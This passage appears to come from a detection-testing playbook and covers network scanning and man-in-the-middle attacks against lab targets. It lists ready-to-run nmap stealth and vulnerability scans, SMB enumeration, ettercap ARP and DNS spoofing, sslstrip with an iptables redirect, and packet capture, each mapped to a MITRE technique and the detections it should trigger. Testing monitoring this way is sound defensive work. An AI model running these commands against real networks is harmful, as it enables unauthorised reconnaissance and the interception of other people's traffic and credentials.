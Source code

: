 ### 2.2 Network Scanning and Enumeration

**Objective**: Test network monitoring and intrusion detection
**MITRE Technique**: T1018 (Remote System Discovery)

```bash
# Comprehensive network scan
nmap -sS -A -T4 10.0.3.0/24

# Aggressive scan with OS detection
nmap -O -sV --version-intensity 9 $LINUX_TARGET $WINDOWS_TARGET

# UDP scan
nmap -sU --top-ports 100 $LINUX_TARGET

# Vulnerability scanning
nmap --script vuln $LINUX_TARGET

# Service enumeration
nmap --script smb-enum-shares,smb-enum-users $WINDOWS_TARGET
nmap --script http-enum $LINUX_TARGET

# Stealth scanning techniques
nmap -sS -f -D RND:10 $LINUX_TARGET  # Fragmented packets with decoys
nmap -sA $LINUX_TARGET  # ACK scan
nmap -sF $LINUX_TARGET  # FIN scan
```

**Expected Detections**:
- Port scan activities (rule 40101)
- Vulnerability scanning patterns
- Suspicious network traffic volume

### 2.3 Man-in-the-Middle Attacks

**Objective**: Test network security monitoring
**MITRE Technique**: T1557 (Adversary-in-the-Middle)

```bash
# ARP spoofing setup
echo 1 > /proc/sys/net/ipv4/ip_forward

# ARP spoofing attack
ettercap -T -M arp:remote /10.0.3.1// /10.0.3.200//

# DNS spoofing
ettercap -T -M arp:remote -P dns_spoof /10.0.3.1// /10.0.3.200//

# SSL stripping
sslstrip -l 8080 &
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080

# Network sniffing
tcpdump -i eth0 -w /tmp/capture.pcap host $LINUX_TARGET
```
